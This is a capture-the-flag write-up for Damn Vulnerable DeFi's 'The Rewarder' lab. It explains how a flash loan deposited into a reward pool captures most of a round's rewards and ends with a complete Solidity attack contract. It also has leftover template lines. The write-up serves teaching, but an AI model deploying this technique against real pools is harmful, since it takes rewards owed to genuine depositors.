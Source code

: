     Alice, Bob, Charlie and David have already deposited some DVT tokens, and have won their rewards!

    You don't have any DVT tokens. But in the upcoming round, you must claim most rewards for yourself.

    Oh, by the way, rumours say a new pool has just landed on mainnet. Isn't it offering DVT tokens in flash loans?


### Challenge category => so users know the chall’s field
### Challenge points => so users know the chall’s difficulty


In this challenge, we must claim most rewards for ourselves with no DVT token. The challenge also provides flash loan and reward pool. We need to keep an eye on reward pool, `TheRewarderPool.sol`. After deposit DVT token for 5 days, we can get rewards. However, there are already rewards in the pool from previous round, and rewarders have not claimed the reward. 
If we flashloan massive amount of DVT, and deposit to the rewarder pool, we will get most of the reward token.

First, we will borrow max amount of DVT from flashloan, and we will deposit it to rewarder pool. `deposit()` function will trigger `distributeRewards()` function, and since we have deposited very large amount of DVT the it will mint most of reward token. This is possible because `_hasRetrievedReward()` function can not fully validate retrieved address. Finally, we just repay flash loan, and send reward token to attacker. Here is attack contract:ß


```solidity
contract AttackTheRewarder {
    
    address flashLoanerPool;
    address theRewarderPool;
    address rewardToken;
    address liquidity;
    address owner;

    constructor(address _flashLoanerPool, address _rewardToken, address _liquidity, address _theRewarderPool) {
        flashLoanerPool = _flashLoanerPool;
        rewardToken = _rewardToken;
        liquidity = _liquidity;
        theRewarderPool = _theRewarderPool;
        owner = msg.sender;
    }

    function attackTheRewarder() public {
        uint256 amount = DamnValuableToken(liquidity).balanceOf(flashLoanerPool);
        FlashLoanerPool(flashLoanerPool).flashLoan(amount);
    }

    function receiveFlashLoan(uint256 amount) public {
        DamnValuableToken(liquidity).approve(theRewarderPool, amount);

        TheRewarderPool(theRewarderPool).deposit(amount);
        TheRewarderPool(theRewarderPool).withdraw(amount);

        DamnValuableToken(liquidity).transfer(flashLoanerPool, amount);

        uint256 rewardAmount = RewardToken(rewardToken).balanceOf(address(this));
        RewardToken(rewardToken).transfer(owner, rewardAmount);
    }
}
```
